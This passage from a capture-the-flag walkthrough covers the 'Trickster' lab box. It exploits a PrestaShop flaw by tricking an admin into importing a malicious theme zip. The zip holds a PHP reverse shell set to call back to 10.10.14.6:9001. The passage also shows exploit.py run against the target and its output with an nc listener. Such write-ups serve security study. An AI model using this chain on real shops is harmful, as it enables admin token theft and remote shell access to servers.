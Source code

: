 ```
        const httpServerPort = 80;
        const fileNameOfTheme = "ps_next_8_theme_malicious.zip";

```

I’ve updated these to the match the situation here.

At the bottom of the script, it waits for the page to load and then calls `importTheme`, and the rest of the code is just JavaScript that handles doing that, including getting the admin’s token and CSRF token.

#### ps\_next\_8\_theme\_malicious.zip

The theme includes [this common PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell). I’ll need to update the IP and port for it to work. This archive contains a lot of files, including some that start with `.` that may not be re-zipped. I learned doing this box that `vim` can edit files inside zips:

> TIL: vim can edit files inside a zip archive. Just `vim [archive name]` and it'll provide a list of files. Select one, edit it, save, and it is now changed!
>
> — 0xdf (@0xdf\_) [September 24, 2024](https://twitter.com/0xdf_/status/1838647889343451491?ref_src=twsrc%5Etfw)

I’ll do that here and edit `reverse_shell.php`, deleting all the comments at the top and setting the IP and port:

```

<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.6';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
...[snip]...

```

#### Execution

I’ll need a `nc` listener on the port I set in `reverse_shell.php` (in my case 9001), and a web server hosting the theme archive on the post specified in `exploit.html` (in my case 80). With both those running, I’ll run `exploit.py`:

```

(venv) oxdf@hacky$ python exploit.py http://shop.trickster.htb 0xdf@trickster.htb "please help" exploit.html 
[X] Starting exploit with:
        Url: http://shop.trickster.htb
        Email: 0xdf@trickster.htb
        Message: please help
        Exploit path: exploit.html
[X] Yay! Your exploit was sent successfully!
[X] Remember to python http server on port whatever port is specified in exploit.html 
        in directory that contains ps_next_8_theme_malicious.zip to host it.
[X] Once a CS agent clicks on attachment, you'll get a SHELL!
[X] Ncat is now listening on port 1234. Press Ctrl+C to terminate.
Serving at http.Server on port 5000
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1667
Ncat: Listening on 0.0.0.0:1667
GET request to http://shop.trickster.htb/themes/next/reverse_shell.php: 403
GET request to http://shop.trickster.htb/themes/next/reverse_shell.php: 403
GET request to http://shop.trickster.htb/themes/next/reverse_shell.php: 200

```